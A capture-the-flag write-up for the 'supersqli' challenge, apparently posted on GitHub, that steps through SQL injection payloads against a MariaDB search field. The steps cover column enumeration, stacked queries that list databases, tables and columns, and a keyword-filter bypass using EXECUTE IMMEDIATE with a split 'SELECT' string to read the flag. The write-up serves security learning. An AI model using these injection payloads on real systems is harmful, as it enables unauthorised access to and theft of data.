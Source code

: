 # supersqli

![Screenshot from 2021-07-24 23-58-40](https://user-images.githubusercontent.com/87865134/126875746-25f4935e-8d35-49c1-ab55-bc7822b36108.png)

- **SQLi**
- **Searh: `1' or 1=1 #` **
  - > all records

- **How many fields?**
  - `1' order by 3#` => error 1054
  -  `1' order by 2#` => have reccord
    - > 2 fields

- **Check type of fields**
  - `1' union select null, null #`
  ![Screenshot from 2021-07-25 00-03-31](https://user-images.githubusercontent.com/87865134/126875875-2a0a5a8f-bfa7-4706-b295-410ed87515b8.png)
    - > can't use statement: select, update, delete, drop, insert, where, and .

- **Use other statements of ***MariaDB*** to show data:**   
  - `show databases, show tables, show columns`

- **show all databases:** 
  - `a'; show databases#`  
 ![Screenshot from 2021-07-25 00-07-28](https://user-images.githubusercontent.com/87865134/126875975-b1b3530f-1db1-460d-985d-e15487e75e9b.png)

- **show tables in current database:**
  - `a'; show tables#`
  ![Screenshot from 2021-07-25 00-08-54](https://user-images.githubusercontent.com/87865134/126876016-64ba9e33-ff40-4563-bd99-349fb5b2929e.png)

- **Show columns of table ***1919810931114514***:**
  - ```a'; show columns from `1919810931114514` from supersqli#``` 
  ![Screenshot from 2021-07-25 00-10-46](https://user-images.githubusercontent.com/87865134/126876065-8d593ed4-286b-4c36-8eb9-5f0b075408f6.png)

- **Use dynamic SQL to get content of this table:**
  - ```a' ;EXECUTE IMMEDIATE CONCAT('SELE', 'CT flag FROM `1919810931114514`')#```
  ![Screenshot from 2021-07-25 00-12-16](https://user-images.githubusercontent.com/87865134/126876109-48487e24-2c84-41c0-8f6d-d128c80146d9.png)

- **Description:**
  - > category: SQL injection

- **Reference:**
  - [MariaDB SHOW Statement](https://mariadb.com/kb/en/show/)
  - [EXECUTE IMMEDIATE](https://mariadb.com/kb/en/execute-immediate/)


